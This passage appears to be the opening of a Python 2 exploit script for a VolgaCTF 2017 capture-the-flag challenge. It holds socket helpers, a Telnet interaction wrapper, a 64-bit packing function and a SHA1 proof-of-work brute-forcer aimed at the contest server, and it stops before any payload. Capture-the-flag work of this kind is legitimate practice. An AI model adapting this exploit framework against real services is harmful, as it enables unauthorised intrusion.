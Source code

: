 

# Exploit
```python
#!/usr/bin/python
from struct import pack, unpack
import hashlib
import socket
from telnetlib import Telnet

TESTING_LOCAL = False
if TESTING_LOCAL == True:
    HOST = "localhost"
    PORT = 45678
else:
    HOST = "time-is.quals.2017.volgactf.ru"
    PORT = 45678

def p64(val):
    return pack("Q", val)

def RED(msg):
    RED_COLOR = "\033[31m"
    NO_COLOR  = "\033[0m"
    return RED_COLOR + msg + NO_COLOR

def send(s, msg, end = "\n", should_print = False):
    msg += end
    if should_print:
        print "Sending: '{}'".format(msg.replace("\n", "\\n"))
    s.sendall(msg)

def recv_until(s, until_str):
    res = ""
    while until_str not in res:
        res += s.recv(1)
    return res

def interact(s):
    t = Telnet()
    t.sock = s
    t.interact()

def sha1(txt):
    if len(txt) != 29:
        print "ERROR: txt should be 29 characters long"
    return hashlib.sha1(txt).hexdigest()

def possibilities():
    """ x is always an hex string """
    r = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f']
    for i1 in r:
        for i2 in r:
            for i3 in r:
                for i4 in r:
                    for i5 in r:
                        yield i1+i2+i3+i4+i5

def check_hash(h):
    """ Last 26 bits of the hash have to be set"""
    if(h[-6:] == "ffffff"):
        if int(h[-7:-6], 16) & 0x3 == 0x3:
            return True
```